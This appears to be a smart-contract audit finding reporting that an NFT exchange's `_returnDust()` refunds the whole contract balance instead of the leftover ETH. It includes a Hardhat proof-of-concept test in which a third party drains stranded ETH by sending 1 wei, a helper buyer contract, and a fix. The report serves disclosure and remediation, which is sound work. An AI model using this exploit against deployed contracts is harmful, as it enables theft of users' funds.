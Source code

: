 # Exchange refund operation will return all ETH stored in the contract instead of the remaining amount from the exchange operation

The function that refunds remaining ETH in the Exchange contract will send back all the balance present in the contract instead of just the remaining amount after the exchange(s) operation(s) happen.

## Impact

The `_returnDust()` internal function is called in the `execute` and `bulkExecute` functions of the Exchange contract to return the sender any ETH that is leftover after the exchanges happened.

This function uses a low level call using inline assembly to refund the caller if the storage variable `remainingETH` (which tracks the consumption of ETH) is greater than 0. But, instead of using this variable as the amount to be refunded, it calls `selfbalance()` which will return the total ETH balance held in the contract.

This issue can be used to withdraw all the ETH stored in the contract: as long as the refund amount is at least 1 wei the refund process will still send all the contract's balance.

Combining this issue with other situations that may cause ETH to be stored in the contract (see associated report "ETH payments may fail to be refunded and will be lost in the Exchange contract") can lead an attacker to steal funds, as shown in the following PoC.

## PoC

The following test first sets the scenario by using a failed bulk purchase operation that fails to be refunded back to the caller. This leaves the ETH payment in the Exchange contract.

The attacker (here represented by the `thirdParty` signer) uses a bulk exchange operation that will fail on purpose and send a payment of 1 wei. `_remainingETH` will be 1 wei, but the refund operation will send all the ETH held in the contract, which includes the lost payment from the previous operation.

```
it('steal eth in exchange via refund', async function() {
  // Simulate a failed operation that fails to refund ETH
  const buyerContract = (await simpleDeploy('NftBuyer', [exchange.address])) as any;
  
  // sell price is 2 ETH
  sell = generateOrder(alice, {
    side: Side.Sell,
    tokenId,
    paymentToken: ethers.constants.AddressZero,
    price: ethers.utils.parseEther("2"),
    fees: [],
  });
  
  // buyer wants to buy it for 1 ETH, which will fail the operation
  const amount = ethers.utils.parseEther("1");
  buy = generateOrder(buyerContract, {
    side: Side.Buy,
    tokenId,
    price: amount,
    paymentToken: ethers.constants.AddressZero,
    fees: [],
  });
  
  sellInput = await sell.pack();
  buyInput = await buy.packNoSigs();
  const executions = [{ sell: sellInput, buy: buyInput }];

  await waitForTx(
    buyerContract.buyNftBulk(executions, { value: amount })
  );
  
  // ETH is in exchange
  expect(await hre.ethers.provider.getBalance(exchange.address)).to.eq(amount);
  
  // Now thirdparty wants to take advantage of this, he executes an order that will also fail and sends 1 wei so the refund process is triggered
  const thirdPartyBuy = generateOrder(thirdParty, {
    side: Side.Buy,
    tokenId,
    price: 1,
    paymentToken: ethers.constants.AddressZero,
    fees: [],
  });
  
  const thirdPartyBuyInput = await thirdPartyBuy.pack()
  const thirdPartyExecutions = [{ sell: sellInput, buy: thirdPartyBuyInput }];
  
  // ETH present in the exchange is sent to third party
  await expect(
    () => exchange.connect(thirdParty).bulkExecute(thirdPartyExecutions, { value: 1 })
  ).to.changeEtherBalance(thirdParty, amount);
                  
  // Exchange balance is 0
  expect(await hre.ethers.provider.getBalance(exchange.address)).to.eq(0);
});
```

NftBuyer contract:

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "../Exchange.sol";
import "../lib/OrderStructs.sol";

contract NftBuyer is IERC721Receiver {
    Exchange private immutable exchange;

    constructor(Exchange _exchange) {
        exchange = _exchange;
    }

    function buyNft(Input calldata sell, Input calldata buy) external payable {
        exchange.execute{value: msg.value}(sell, buy);
    }
    function buyNftBulk(Execution[] calldata executions) external payable {
        exchange.bulkExecute{value: msg.value}(executions);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {
        // simulate a high gas operation
    }
}
```

## Recommendation

Use `_remainingETH` instead of `selfbalance()` in the `_returnDust()` function:

```
assembly {
    if gt(_remainingETH, 0) {
        let callStatus := call(
            gas(),
            caller(),
            _remainingETH,
            0,
            0,
            0,
            0
        )
    }
}
```
